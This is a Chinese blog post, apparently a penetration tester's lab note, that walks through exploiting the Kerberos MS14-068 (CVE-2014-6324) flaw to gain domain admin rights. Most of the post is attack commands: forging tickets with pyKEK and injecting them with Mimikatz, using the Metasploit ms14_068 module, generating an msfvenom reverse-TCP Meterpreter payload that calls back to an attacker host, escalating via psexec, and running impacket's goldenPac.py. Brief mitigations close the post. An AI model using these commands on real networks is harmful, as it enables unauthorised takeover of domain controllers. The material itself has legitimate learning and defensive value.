

# 内网安全之：Kerberos 域用户提权漏洞(MS14-068；CVE-2014-6324) - f_carey - 博客园

> 原文：[`www.cnblogs.com/f-carey/p/17536737.html`](https://www.cnblogs.com/f-carey/p/17536737.html)

> 郑重声明：
> 本笔记编写目的只用于安全知识提升，并与更多人共享安全知识，切勿使用笔记中的技术进行违法活动，利用笔记中的技术造成的后果与作者本人无关。倡导维护网络安全人人有责，共同维护网络文明和谐。

### Kerberos 域用户提权漏洞(MS14-068；CVE-2014-6324

*   1 pyKEK 工具包
*   2 MSF 中 ms14_068 利用
*   3 goldenPac.py
*   4 防范 Kerberos MS14-068 漏洞

[Microsoft Security Bulletin MS14-068 - Critical | Microsoft Docs](https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2014/ms14-068?redirectedfrom=MSDN)

受该漏洞影响的操作系统，包括 Win2003、Wind2008、Win2008 R2、Win2012 和 Win2012 R2。该漏洞可导致活动目录整体权限控制受到影响，允许攻击者将域内任意用户权限提升至域管理级别。即，如果攻击者获取了域内任何一台计算机的 Shell 权限，同时知道任意域用户的用户名、SID、密码，即可获得城管理员权限，进而控制域控制器，最终获得域权限。

漏洞产生原因：用户在向 Kerberos 密钥分发中心( KDC)申请 TGT (由票据授权服务产生的身份凭证)时，可以伪造自己的 Kerberos 票据。如果票据声明自己有域管理员权限，而在处理该票据时未验证票据的签名， 那么返给用户的 TGT 就使普通域用户拥有域管理员权限。该用户可以将 TGT 发送到 KDC，KDC 的 TGS (票据授权服务)在验证 TGT 后，将服务票据(Service Ticket)发送给该用户，而该用户拥有访问任何该服务的权限，从而使攻击者可以访问域内的资源。

# 1 pyKEK 工具包

[mubix/pykek: Kerberos Exploitation Kit (github.com)](https://github.com/mubix/pykek)

pyKEK (Python Kerberos Expoitation Kit)是利用 Kerberos 协议进行渗透测试的工具包，使用 PyKEK 可以生生成一张高权原的服务票据，并通过 mimikatz 将服务票据注人内存。PyKEK 运行在 Python 2.7 环境。使用 PyKEK，可以将 Python 文件转换为可执行文件。

```
# ms14-068.py 脚本说明
-u <userName>@<domainName>:域用户名@域名。
-s <userSid>: 域用户 SID。
-d <domainControlerAddr>:域控制器地址。
-p <clearPassword>: 明文密码。
--rc4 <ntlmHash>:在没有明文密码的情况下，通过 NTLM Hash 登录。

# 查看域控制器是否安装针对 MS14-068 ( CVE-2014-6324 )漏洞提供的补丁为 KB3011780
wmic qfe get hotfixid

# 查看域用户 SID
whoami /user
# 查看域内所有用户 SID
wmic useraccount get name,sid

# 生成高权限票据
python.exe ms14-068.py -u test02@test.lab -s S-1-5-21-3884001349-2725517725-626265054-1108 -d 10.1.1.21 -p Admin123

# 查看注入前是否有通过 IPC 可以访问域控制器的目录权限
dir \\dc\c$

# 清除内存中的所有票据，并将高权限票据注入内存
kerberos::purge
kerberos::ptc "TGT_test02@test.lab.ccache"

# 查看注入前是否有通过 IPC 可以访问域控制器的目录权限
dir \\dc\c$ 
```



# 2 MSF 中 ms14_068 利用

```
# 利用 msf 生成高权限票据
auxiliary/admin/kerberos/ms14_068_kerberos_checksum

# 由于 msf 不支持 bin 文件写入，要使用 Mimikatz 对文件进行格式转换
kerberos::clist "20211208211852_default_10.1.1.21_windows.kerberos_341121.bin" /export

# 生成一个反弹 shell
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.1.1.17 lport=4444 -a x64 -f exe > Desktop/evil17.exe

# kali 中监听反弹 shell 链接
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp

# 在反弹 shell 中导入票据
getuid
load kiwi 
kerberos_ticket_use /home/kali/Desktop/0-00000000-test02@krbtgt-TEST.LAB.kirbi
background 

# 利用高权限票据提权
use exploit/windows/local/current_user_psexec
set technique PSH
set rhosts 10.1.1.21
set session 1
run
getuid 
```


# 3 goldenPac.py

goldenPac.py 是一个用于对 Kerberos 进行测试的工具，它集成在 impacket/examples 下。

```
python goldenPac.py 域名/域成员用户:域成员用户密码@域控制器地址

# kali 下安装 Kerberos 客户端
apt-get install krb5-user -y

# goldenPac.py 是通过 PsExec 获取域控制器的 Shell，会产生大量日志，另外 PsExec 文件容易被杀软查杀，可行性不高。 
```

# 4 防范 Kerberos MS14-068 漏洞

*   开启 Windows Update 功能，进行自动更新。
*   手动下载补丁包进行修复。
*   对域内账号进行控制，禁止使用弱口令，及时、定期修改密码。
*   在服务器上安装反病毒软件，及时更新病毒库。